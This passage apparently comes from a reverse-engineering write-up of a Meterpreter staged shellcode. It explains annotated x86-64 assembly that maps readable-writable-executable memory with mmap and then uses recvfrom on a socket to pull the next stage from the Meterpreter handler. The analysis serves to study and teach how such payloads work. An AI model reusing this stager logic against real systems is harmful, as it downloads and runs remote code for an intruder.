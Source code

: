 ```nasm
xor    r8,r8
xor    r9,r9

; set RAX to 0x9 (syscall sys_mmap)
mov    rax,0x9

; invoke sys_mmap
syscall
```

It can be converted to the following C code:

```cpp
mmap(
  0,            // let the kernel choose where to allocate the memory space
  3012548,      // allocate 3012548 bytes
  7,            // PROT_EXEC | PROT_READ | PROT_WRITE
  34,           // MAP_ANONYMOUS | MAP_PRIVATE
  0,            // ignored, since we're using MAP_ANONYMOUS
  0             // MAP_ANONYMOUS requires this parameter to be 0
);
```

It seems the second stage allocates `some memory` in order to make room for the third stage.

After that we have the second block of instructions:

```nasm
; copy the value 3012548 into RDX
mov    rdx,rsi

; set RSI to the addresss of the new mapping
mov    rsi,rax

; copy the file descriptor of the socket from the stack
; and store it into RDI
pop    rdi

; set R10 to 256
mov    r10,0x100

; clear R8 and R9
xor    r8,r8
xor    r9,r9

; set RAX to 45 (syscall sys_recvfrom)
mov    rax,0x2d

; invoke sys_recvfrom
syscall
```

As done previously, the shellcode uses the syscall `recvfrom` in order to read the next stage (in this case the third one) from the meterpreter handler.
